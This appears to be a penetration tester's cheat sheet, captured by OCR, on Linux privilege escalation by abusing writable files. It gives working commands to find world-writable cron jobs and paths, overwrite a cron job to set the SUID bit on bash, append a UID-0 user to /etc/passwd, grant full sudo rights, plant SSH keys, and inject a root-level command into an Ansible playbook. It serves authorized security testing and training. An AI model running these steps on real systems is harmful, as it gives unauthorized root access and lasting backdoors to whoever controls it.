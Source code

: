 ### __Abuse write permissions:__
#### _Cronjob exploitation:_
- 1\. Search for vulnerable cronjob files: 
	- 1\. Search for files that are writeable by all users and run as root \(check if rwx permissions are set\): `find /etc/cron* -type f -perm -o+w -exec ls -l {} \;`
	- 2\. pspy tool can give information about running jobs \(if the job is frequently executed\) \(tool must be uploaded first\) \([pspy64](https://github.com/DominicBreuker/pspy)\): `./pspy64`
- 2\. Modify the found cronjob to execute an arbitrary command \(example set SUID bit for bash\): `echo \e ‘#!/bin/bash\n/bin/chmod u+s /bin/bash’> </path/to/cronjob (e.g. /etc/cron.hourly/oddjob)>`

#### _Identify folder & file write permissions:_
- Find writeable folders: `find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; 2>/dev/null`
- Find writeable files \(use 1 dir \(e\.g\. etc\) to search in each time for less verbose output\): `find /etc -type f \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; 2>/dev/null`

#### _Insecure file & folder permission abuse:_
- /etc/passwd: for backwards compatibility, if a password hash is present in the second column of a /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow if available\.
	- 1\. Check if you have write permissions for the "/etc/passwd" file 
	- 2\. If yes, add new root user \(root2\) to the file: 
		- 1\. First create hashed password: `openssl passwd <password>`
		- 2\. Write new user to /etc/passwd:  `echo "root2:<generated hash>:0:0:root:/root:/bin/bash" >> /etc/passwd`
	- 3\. Elevate to your added root user: `su root2`
- /etc/sudoers: set sudo rights to ALL for controlled user: `echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers`
- User SSH folder: Create an ssh key and copy it to the ‘/home/user/\.ssh/authorized\_keys’ folder of the user you have write permissions for\. 
- Ansible: If you have write access to a playbook, modify it to add own command to the playbook that will run as root:
	- 1\. Modify the playbook so its runs your command and add "become: yes" to the file to run it as root \(example\):
        ```
        ---
        - name: Example original code
          hosts: all
          gather_facts: true
          become: yes
          tasks:
            - name: Example code
            debug:
              msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"
            - name: new malicious command
              shell: <command to run>
              async: 10
              poll: 0
        ```
	- 2\. Run playbook or wait until its run by a privileged user: `ansible-playbook <playbook.yaml>`
